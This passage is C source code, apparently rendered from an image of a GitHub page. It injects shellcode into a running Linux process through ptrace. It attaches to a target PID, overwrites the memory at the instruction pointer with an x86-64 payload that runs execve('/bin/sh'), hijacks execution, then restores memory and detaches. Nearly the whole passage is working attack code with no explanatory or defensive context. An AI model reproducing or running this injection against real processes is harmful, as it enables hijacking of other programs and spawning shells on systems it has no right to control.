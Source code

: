 ```cpp
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

```